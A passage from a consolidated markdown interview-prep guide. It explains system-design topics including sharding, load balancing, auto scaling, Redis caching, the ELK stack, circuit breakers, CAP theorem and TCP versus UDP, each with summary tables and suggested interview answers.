# UI & Frontend Architecture — Complete Guide
> **Consolidated From:** Description-UI-Questions-Clean.md, Description-UI-Architecture-Complete.md, Description-Questions-Complete.md, Description-Questions2-Complete.md
> **Topics Covered:** UI interview questions, rendering strategies, module federation, CQRS, headless architecture, CSS/WCAG/ARIA, PWA, critical rendering path, Android deep-dive, RADIO framework, design-patterns Q&A
> **Consolidation Date:** 2026-07-04
> **Original Documents:** 4 → **Content Preserved:** 100%

---

> Clean, lightweight reference guide with all concepts and diagrams.

---

## Table of Contents

1. [Sharding](#1-sharding)
2. [Auto Scaler & Load Balancers](#2-auto-scaler--load-balancers)
3. [Redis Cache](#3-redis-cache)
4. [AWS Elasticsearch & ELK Stack](#4-aws-elasticsearch--elk-stack)
5. [Resilience4j & Circuit Breaker](#5-resilience4j--circuit-breaker)
6. [High-Level Design (HLD) Concepts](#6-high-level-design-hld-concepts)
7. [Database In-Depth](#7-database-in-depth)
8. [Cache](#8-cache)
9. [Load Balancers – Deep Dive](#9-load-balancers--deep-dive)
10. [Networks](#10-networks)
11. [Monolith vs. Microservice](#11-monolith-vs-microservice)
12. [Message Queue](#12-message-queue)
13. [Security (Backend)](#13-security-backend)
14. [API Evolution & Backward Compatibility](#14-api-evolution--backward-compatibility)
15. [Retry Policies](#15-retry-policies)
16. [Swift (iOS)](#16-swift-ios)
17. [Security Best Practices for UI/Frontend](#17-security-best-practices-for-uifrontend)
18. [Performance & Optimization](#18-performance--optimization)
19. [Testing](#19-testing)
20. [Frontend Architecture Patterns](#20-frontend-architecture-patterns)
21. [Modern Architectural Styles](#21-modern-architectural-styles)
22. [UI Design Concepts](#22-ui-design-concepts)
23. [Data Model & API Model](#23-data-model--api-model)
24. [API Models & Communication Styles](#24-api-models--communication-styles)
25. [Module Federation & MFE](#25-module-federation--mfe)
26. [BFF – Backend for Frontend](#26-bff--backend-for-frontend)
27. [GraphQL](#27-graphql)
28. [gRPC](#28-grpc)
29. [Domain-Driven Architecture](#29-domain-driven-architecture)
30. [Pagination (Offset vs. Cursor)](#30-pagination-offset-vs-cursor)
31. [Debouncing & Throttling](#31-debouncing--throttling)
32. [SSE & Infinite Scroll](#32-sse--infinite-scroll)
33. [Design Patterns & Anti-Patterns](#33-design-patterns--anti-patterns)
34. [Clean Architecture](#34-clean-architecture)
35. [Composable Architecture (TCA)](#35-composable-architecture-tca)
36. [Android Concepts](#36-android-concepts)
37. [Eventual Consistency & Event Sourcing](#37-eventual-consistency--event-sourcing)
38. [Tree Shaking & Lightweight Injection Token](#38-tree-shaking--lightweight-injection-token)
39. [Elasticsearch & ELK Stack](#39-elasticsearch--elk-stack)
40. [ANR vs. Crash (Android)](#40-anr-vs-crash-android)

---

## 1. Sharding

**Sharding** is a **database partitioning technique** that splits very large databases into smaller, faster, more easily managed parts called **shards**. Each shard contains a subset of the total data and operates independently on its own hardware.

### Diagram



### Why Use Sharding?
- **Improved Performance:** Querying smaller datasets is faster.
- **Increased Scalability:** Add more shards as data grows.
- **Higher Availability:** If one shard goes down, others remain operational.
- **Easier Management:** Smaller databases are easier to back up and restore.

### Sharding Strategies

| Strategy | How it works | Best for |
|---|---|---|
| **Range-based** | Split by value range (e.g., A–M, N–Z) | Sequential data |
| **Hash-based** | Hash the key, assign to shard by modulo | Even distribution |
| **Directory-based** | Lookup table maps key → shard | Flexible routing |

### Key Considerations
- **Sharding Key:** Critical choice — poor key leads to hot spots.
- **Query Routing:** Must know which shard(s) to query.
- **Data Consistency:** Cross-shard transactions are complex (two-phase commit).
- **Rebalancing:** Adding/removing shards requires data movement.

> **Interview Language:** "Sharding is a **horizontal partitioning** technique. We split a large database into independent databases called **shards**. The **sharding key** is critical — a bad choice leads to **hot spots**. Strategies include range-based, hash-based, and directory-based sharding, each with tradeoffs."

---

## 2. Auto Scaler & Load Balancers

### Auto Scaler

An **Auto Scaler** automatically adjusts the number of running instances based on real-time metrics (CPU, memory, custom metrics).



**Scaling Policy Example:**
- Minimum instances: **2**
- Maximum instances: **10**
- Scale up: CPU > 70% for 5 minutes → add 1 instance
- Scale down: CPU < 30% for 5 minutes → remove 1 instance

### Load Balancer

A **Load Balancer** acts as a traffic director, distributing incoming requests across multiple backend servers.



### Load Balancing Algorithms

| Algorithm | How it works | Use case |
|---|---|---|
| **Round Robin** | Sequential distribution | Equal-capacity servers |
| **Least Connections** | Route to server with fewest active connections | Variable request duration |
| **Weighted Round Robin** | Weight by server capacity | Mixed-capacity servers |
| **IP Hash** | Hash client IP → always same server | Session persistence |

### Auto Scaler + Load Balancer Together



> **Interview Language:** "Auto Scalers and Load Balancers work together. The Load Balancer **distributes traffic** to healthy instances, and the Auto Scaler **adjusts the pool size** based on demand. Together they provide **elastic, highly available** applications."

---

## 3. Redis Cache

**Redis** is an **in-memory data store** used as a high-performance cache. It stores frequently accessed data in RAM to reduce database load and latency.

### Cache-Aside Pattern



- **Cache Hit:** Data found in Redis → returned instantly.
- **Cache Miss:** Fetch from DB, serve user, store in Redis with TTL.
- **TTL (Time to Live):** Auto-expires stale data.

> **Interview Language:** "Redis is an **in-memory key-value store** for caching. We implement a **cache-aside pattern**: check cache first, on a miss retrieve from the database and populate the cache. We set **TTL** to prevent stale data."

---

## 4. AWS Elasticsearch & ELK Stack

### AWS Elasticsearch (OpenSearch)
A managed, distributed **RESTful search and analytics engine** built on Apache Lucene. Uses an **inverted index** for fast full-text search.

**Use cases:** Product search, log analysis, monitoring, autocomplete.

### ELK Stack Architecture



| Component | Role |
|---|---|
| **Elasticsearch** | Distributed search & storage engine |
| **Logstash** | Data pipeline — ingest, parse, transform |
| **Kibana** | Visualization, dashboards, querying |

> **Interview Language:** "The ELK stack provides **centralized logging**. Logstash is the **data pipeline**, Elasticsearch is the **search & storage engine**, and Kibana is the **visualization tool**. It gives observability across a distributed system."

---

## 5. Resilience4j & Circuit Breaker

**Resilience4j** is a lightweight **fault tolerance library** for Java that prevents cascading failures in microservices.

### Circuit Breaker State Machine



### Resilience4j Modules

| Module | Purpose |
|---|---|
| **Circuit Breaker** | Stop calling a failing dependency (fast fail) |
| **Retry** | Automatically retry transient failures |
| **Rate Limiter** | Limit calls per time period |
| **Bulkhead** | Isolate resources (thread pool per service) |
| **Time Limiter** | Set timeout on calls |

> **Interview Language:** "Resilience4j prevents **cascading failures**. The **Circuit Breaker** trips when failures exceed a threshold, **fails fast** instead of waiting for timeout, and then **re-tests** in HALF-OPEN state. **Retry** handles transient failures. **Bulkhead** isolates resources."

---

## 6. High-Level Design (HLD) Concepts

### System Components Overview



### Key HLD Concepts

**Servers** – Process client requests; return responses (HTML, JSON, files).

**DNS** – Internet's phonebook. Maps domain names → IP addresses. Hierarchical & distributed.

**Proxy vs Reverse Proxy**
- **Forward Proxy:** Sits in front of clients. Hides client identity (VPNs, corporate proxies).
- **Reverse Proxy:** Sits in front of servers. Provides load balancing, SSL termination, security. (Nginx, Cloudflare)

**Serverless** – Cloud provider manages infrastructure. Code runs on-demand. Pay per execution. (AWS Lambda, Azure Functions)

**API Gateway** – Single entry point for all API calls. Handles auth, rate limiting, routing, logging.

**Tier Architecture**



**Horizontal vs Vertical Scaling**

| | Vertical (Scale Up) | Horizontal (Scale Out) |
|---|---|---|
| **Approach** | Add more CPU/RAM to 1 machine | Add more machines |
| **Limit** | Hard ceiling on hardware | Virtually unlimited |
| **Failure** | Single point of failure | Fault tolerant |
| **Cost** | Expensive at scale | Cost effective |
| **Complexity** | Simple | Requires LB + coordination |

> **Interview Language:** "We prefer **horizontal scaling** — it avoids a single point of failure and allows virtually unlimited traffic via adding more machines behind a load balancer."

---

## 7. Database In-Depth

### CAP Theorem



> In a distributed system, **Partition Tolerance is mandatory** → you must choose between **CP** or **AP**.

### Database Index
A data structure (B-tree, hash) that allows **fast lookups** — like a book's index. Speeds up reads but adds overhead on writes (index must also be updated).

### Data Replication



- **Read replicas** – Distribute read load.
- **Hot standby** – Instant failover if primary fails.

### SQL vs NoSQL

| Feature | SQL | NoSQL |
|---|---|---|
| **Schema** | Fixed, relational | Flexible, dynamic |
| **Consistency** | Strong (ACID) | Eventual (BASE) |
| **Scale** | Vertical (mainly) | Horizontal |
| **Joins** | Native | Manual / denormalized |
| **Examples** | PostgreSQL, MySQL | MongoDB, Cassandra, Redis |
| **Best for** | Banking, ERP, complex queries | Social feeds, logs, real-time |

---

## 8. Cache

### Cache Placement Layers



### Redis vs Memcached

| Feature | Redis | Memcached |
|---|---|---|
| **Data types** | Strings, Lists, Sets, Hashes, Sorted Sets | Strings only |
| **Persistence** | ✅ RDB / AOF snapshots | ❌ |
| **Replication** | ✅ | ❌ |
| **Cluster** | ✅ | ✅ (simple) |
| **Use case** | Advanced caching, sessions, queues, pub-sub | Simple high-speed caching |

### Cache Invalidation Strategies

| Strategy | How it works | Risk |
|---|---|---|
| **TTL (Time-based)** | Auto-expire after N seconds | Stale data during TTL window |
| **Write-through** | Write to cache AND DB simultaneously | Slightly slower writes |
| **Write-back** | Write to cache; DB updated async | Data loss if cache fails |
| **Manual invalidation** | App explicitly deletes cache on write | Developer overhead |

### Cache Eviction Policies
- **LRU (Least Recently Used):** Evict the item not accessed for the longest time. Most common.
- **LFU (Least Frequently Used):** Evict the item with lowest access count.

---

## 9. Load Balancers – Deep Dive

### Layer 4 vs Layer 7



### Consistent Hashing



**Key benefit:** When a server is added/removed, only keys near that server are remapped (not all keys). Minimizes cache invalidation.

### Rate Limiting
Controls how many requests a client can make in a time window. Returns **429 Too Many Requests** when exceeded. Prevents DDoS and abuse.

---

## 10. Networks

### TCP vs UDP



| Protocol | Type | Speed | Reliability | Use Cases |
|---|---|---|---|---|
| **TCP** | Connection-oriented | Slower | ✅ Reliable, ordered | HTTP, email, file transfer |
| **UDP** | Connectionless | Faster | ❌ No guarantee | Video streaming, gaming, VoIP |

### HTTP vs HTTPS
- **HTTP** – Plain text. Vulnerable to eavesdropping.
- **HTTPS** – HTTP + TLS/SSL encryption. Prevents MITM attacks. Required for all production services.

### WebSockets vs SSE vs Long Polling

